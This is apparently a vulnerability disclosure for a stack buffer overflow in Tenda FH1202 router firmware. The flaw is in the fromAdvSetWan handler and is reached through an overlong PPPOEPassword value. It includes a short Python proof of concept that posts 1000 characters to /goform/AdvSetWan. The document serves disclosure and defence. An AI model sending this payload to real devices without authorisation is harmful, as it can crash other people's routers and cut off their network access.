 # Tenda FH1202 fromAdvSetWan
### Overview
vendor: Tenda

product: FH1202

version: V1.2.0.14(408)

type: Stack Overflow
### Vulnerability Description
Tenda FH1202 V1.2.0.14(408) were discovered to contain a stack overflow via the PPPOEPassword parameter in the fromAdvSetWan function.
### Vulnerability details
The Tenda FH1202 V1.2.0.14(408) firmware has a stack overflow vulnerability located in the `fromAdvSetWan` function. This function accepts the `PPPOEPassword` parameter from a POST request. The `PPPOEPassword` parameter serves as the first parameter of the decodePwd function, and the second parameter of the decodePwd function is the character array on the stack. String copy of decodePwd function leads to a buffer overflow. The user-supplied `PPPOEPassword` can exceed the capacity of the `s` array, thus triggering this security vulnerability.

![](images/1.png)
![](images/2.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/AdvSetWan"

data = {
    "wanmode": "2",
    "PPPOEPassword": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```
![](images/3.png)
